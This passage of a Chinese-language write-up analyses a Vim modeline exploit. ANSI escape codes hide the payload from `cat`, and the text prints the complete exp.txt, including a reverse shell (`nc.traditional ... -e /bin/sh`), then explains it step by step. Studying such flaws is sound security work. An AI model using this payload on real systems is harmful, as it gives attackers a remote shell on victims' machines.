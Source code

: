 - 主要通过ANSI Escape Code来实现这些隐藏功能。

- Vim加载exp文件后等同于执行下面的序列：

  ```shell
  # modeline触发执行自动配置
  :set fen
  :set fdm=expr
  :set fde=assert_fails('set\ fde=x\ \|\ source\!\ \%')
  :set fdl=0
  
  # fde=assert_fails触发了assert_fails函数调用
  :call assert_fails(\'set\\ fde=x\\ \\|\\ source\\!\\ \\%\')
  
  # assert_fails函数执行vim命令
  :set fde=x | source! %
  
  # source! % 加载当前文件，并视为Vim Ex mode下的脚本执行：
  <ESC>
  S
  Nothing here.
  <ESC>
  :silent! w
  :call system('nohup nc.traditional 127.0.0.1 9999 -e /bin/sh &') 
  :redraw! 
  :file 
  :silent! # " vim: set fen fdm=expr fde=assert_fails(\'set\\ fde=x\\ \\|\\ source\\!\\ \\%\') fdl=0: \x16\x1b[1G\x16\x1b[KNothing here."\x16\x1b[D \n
  
  # 读取到换行符号后\n执行上面第一个silent!以及后面的命令
  # 通过vim的system函数执行了系统命令,建立反弹shell
  
  ```

- 逐条解释

  ```shell
  # exp.txt: 
  \x1b[?7l\x1bSNothing here.\x1b:silent! w | call system(\'nohup nc.traditional 127.0.0.1 9999 -e /bin/sh &\') | redraw! | file | silent! # " vim: set fen fdm=expr fde=assert_fails(\'set\\ fde=x\\ \\|\\ source\\!\\ \\%\') fdl=0: \x16\x1b[1G\x16\x1b[2KNothing here."\x16\x1b[2D  \n
  
  # 下文括号中的c表示用于欺骗cat，v表示Vim脚本正常指令
  
  \x1b[?7l (c)
  # 关闭自动换行
  # 配合\x1b[1G和\x1b[K使用，见下文
  # 具体定义和测试Demo见附件 ANSI escape codes 部分
  
  \x1bS (v)
  # <ESC>S 相当于依次按下ESC键和S键
  # 表示剪切当前行，并从Normal mode切换到Insert mode
  # 经测试，这里的\x1b是可以去掉的
  # 具体定义和测试Demo见附件 ANSI escape codes 部分
  
  Nothing here. (v)
  # 在Insert mode下写入字符串 Nothing here.
  
  \x1b (v)
  # 相当于依次按下ESC键，退出Insert mode 返回Normal mode
  
  :  (v)
  # 从Normal mode进入Command-line mode
  
  silent! w (v)
  # 保存写入的内容，并且关闭回显
  ```